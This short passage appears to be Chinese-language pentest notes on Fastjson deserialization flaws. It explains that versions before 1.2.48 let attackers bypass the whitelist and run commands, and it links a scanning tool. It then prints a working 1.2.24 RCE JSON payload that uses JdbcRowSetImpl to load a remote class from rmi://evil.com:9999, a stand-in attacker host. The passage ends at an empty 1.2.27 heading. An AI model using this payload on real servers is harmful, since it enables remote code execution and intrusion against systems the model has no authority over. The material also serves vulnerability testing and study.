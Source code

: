 ![image](img/s2-057.png)

#### Apache-fastjson

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

* 漏洞扫描探测
  * https://github.com/Maskhe/FastjsonScan

需要post参数，没有参数的情况下填写（以下两种都可，否则为notsupport）

```
{}
params=1
```

**1.2.24-rce**

方法同理1.2.27，payload不一样

```
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```

**1.2.27-rce**
